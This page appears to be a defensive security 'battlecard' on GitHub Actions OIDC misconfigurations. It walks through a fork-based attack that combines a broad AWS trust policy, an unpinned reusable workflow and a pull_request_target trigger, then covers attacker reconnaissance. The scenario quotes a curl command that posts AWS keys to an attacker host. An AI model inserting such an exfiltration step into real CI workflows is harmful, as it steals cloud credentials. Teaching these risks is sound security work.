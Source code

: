 ```yaml
---
 permalink: /battlecards/github-oidc-misconfiguration
 
battlecard:
 title: GitHub OIDC Misconfiguration
 category: CI/CD
 scenario: GitHub/OIDC CI Misconfig
 focus: 
   - overly broad trust policies 
   - secret exposure to forks 
   - unpinned reusable workflows 
---
```

{% block type='battlecard' text='Scenario' %}
An attacker identifies a popular open-source project on GitHub that uses GitHub Actions and OIDC to automate deployments to a cloud provider like AWS. By inspecting the `.github/workflows` directory, they discover several misconfigurations:

1.  **Overly Broad Trust Policy:** The AWS IAM role's trust policy allows any workflow from any branch within the organization's GitHub repository (`"repo:my-cool-org/*:*"`) to assume the role.
2.  **Unpinned Reusable Workflow:** The main CI workflow calls a reusable deployment workflow using a floating reference, like `uses: my-cool-org/reusable-workflows/.github/workflows/deploy.yml@main`.
3.  **Vulnerable Trigger:** The workflow is configured to run on `pull_request_target`, which allows it to run with access to the target repository's secrets even when triggered by a pull request from a fork.

The attacker forks the project's `reusable-workflows` repository. They modify the `deploy.yml` workflow on their fork's `main` branch to include a step that exfiltrates any available AWS credentials to their own server (`curl -X POST -d "$AWS_ACCESS_KEY_ID:$AWS_SECRET_ACCESS_KEY" http://attacker.com/log`).

Next, the attacker opens a trivial pull request in the main application repository (e.g., fixing a typo in the README). Because the main workflow runs on `pull_request_target` and uses the unpinned `@main` reference for the reusable workflow, GitHub Actions pulls the attacker's malicious version of `deploy.yml`. The overly broad OIDC trust policy allows the malicious workflow to successfully assume the AWS role. The attacker's code executes, stealing the cloud credentials and giving them direct access to the project's cloud infrastructure.

{% endblock %}
{% block type='battlecard' text='Reconnaissance' %}
### Explanation
Attackers don't typically brute-force their way in; they look for open doors. In this scenario, they act like opportunistic auditors, scanning public repositories for common CI/CD misconfigurations. They use specialized search queries on GitHub to find projects using OIDC with cloud providers. They analyze workflow files (`.yml`) to understand your automation, looking for weak triggers like `pull_request_target`, broad OIDC permission claims, and reusable workflows that aren't "pinned" to a specific, immutable version. Their goal is to understand your deployment process well enough to trick it into running their code with your permissions.

### Insight
The attacker is exploiting the trust you've placed in your own automation. The very tools you use for speed and consistency can be turned against you if not configured with a security-first mindset. For an attacker, a `.github/workflows` directory is a treasure map showing exactly how you build, test, and deploy code, and where the treasure (your secrets and infrastructure) is buried.
